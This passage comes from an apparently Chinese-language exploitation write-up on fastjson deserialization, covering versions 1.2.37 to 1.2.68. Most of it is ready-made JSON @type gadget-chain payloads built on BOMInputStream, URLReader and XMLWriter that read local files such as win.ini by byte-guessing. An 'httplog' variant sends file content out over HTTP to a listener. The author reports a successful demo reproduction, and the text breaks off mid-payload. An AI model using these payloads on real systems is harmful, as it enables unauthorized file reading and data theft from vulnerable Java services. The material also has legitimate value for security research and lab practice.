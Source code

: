 ```json
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```json
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```json
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```json
{"su15":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}}
```

![image-20231021152553230](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021152553230.png)

#### 4.1.2.2 httplog回显法

修改`4.1.2.1`中最后一步为如下`payload`：


```json
{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Users/whoami/Desktop/testtest.txt"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98]}]}
```

我这里`demo`复现是成功的，但是靶场没有成功，如果有兄弟成功了可以公众号后台直接发消息，我看到立马就会回复，并将这部分在我的博客中更新。



## 4.2 fastjson【1.2.37<=version<=1.2.68】

### 4.2.1 blackhat2021-getBom()原版（适用场景有限）

`payload42`：

```json
{
  "abc":{"@type": "java.lang.AutoCloseable",
    "@type": "org.apache.commons.io.input.BOMInputStream",
    "delegate": {"@type": "org.apache.commons.io.input.ReaderInputStream",
      "reader": { "@type": "jdk.nashorn.api.scripting.URLReader",
        "url": "file:///C:/Windows/win.ini"
      },
      "charsetName": "UTF-8",
      "bufferSize": 1024
    },"boms": [
      {
        "@type": "org.apache.commons.io.ByteOrderMark",
        "charsetName": "UTF-8",
        "bytes": [
          59
        ]
```